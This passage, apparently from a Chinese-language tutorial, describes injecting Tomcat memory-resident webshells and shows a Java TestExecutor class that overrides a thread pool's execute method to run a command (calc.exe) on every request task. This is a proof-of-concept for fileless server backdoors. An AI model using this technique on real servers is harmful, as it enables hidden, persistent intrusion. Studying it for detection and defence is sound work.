 然后在`request1`里面的`connector`的`protocolHandler`里面发现了`httpUpgradeProtocols`：

[![](assets/1708482741-d3005a81e29cf4e25badeb5342d39277.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002841-7397bf1e-c831-1.jpeg)

接下来就是一步步地反射了。

## 2.15 Tomcat Executor 内存马介绍与打入内存马思路分析

### 2.15.1

新建一个项目，配置好`tomcat`运行环境和`web`目录，然后新建以下两个文件，第一个是 TestExecutor.java：

```plain
package org.example;

import java.io.IOException;
import java.util.concurrent.SynchronousQueue;
import java.util.concurrent.ThreadPoolExecutor;
import java.util.concurrent.TimeUnit;

public class TestExecutor extends ThreadPoolExecutor {

    public TestExecutor() {
        super(0, Integer.MAX_VALUE, 60L, TimeUnit.SECONDS, new SynchronousQueue<>());
    }

    @Override
    public void execute(Runnable command) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        super.execute(command);
    }
}
```
